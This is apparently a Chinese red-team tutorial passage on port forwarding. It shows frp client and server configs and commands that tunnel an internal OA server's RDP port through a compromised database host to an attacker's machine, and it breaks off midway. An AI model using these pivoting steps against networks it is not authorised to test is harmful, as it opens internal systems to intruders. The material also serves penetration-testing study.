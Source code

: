 <img src="../../../note/red/pictures/image-20201022102051831.png" alt="image-20201022102051831" style="zoom:50%;" /> 





# 场景四：端口转发

如下图，将oa系统的3389端口转发出来，直接通过黑客的机器连接3389端口。

<img src="../../../note/red/pictures/frp1.png" alt="frp" style="zoom: 33%;" /> 



### oa系统配置

oa系统配置frp客户端，将oa系统自己的3389端口映射到数据系统的4445端口

frpc.ini:

```
[common]
server_addr = 10.37.133.3 #数据库-ip
server_port = 7000
token = shadowtest
	
[rdp]
type = tcp
remote_port = 4445
local_port = 3389
use_encryption = true
```

执行

```
.\frp.exe -c .\frpc.ini
```



### 数据库系统

数据库系统配置一个frp服务端和一个客户端，服务端用来接收oa系统的流量，客户端转发oa系统的流量。

**服务端**

```
[common]
bind_port = 7000
token = shadowtest
```

执行

```
./frps -c ./frps.ini
```
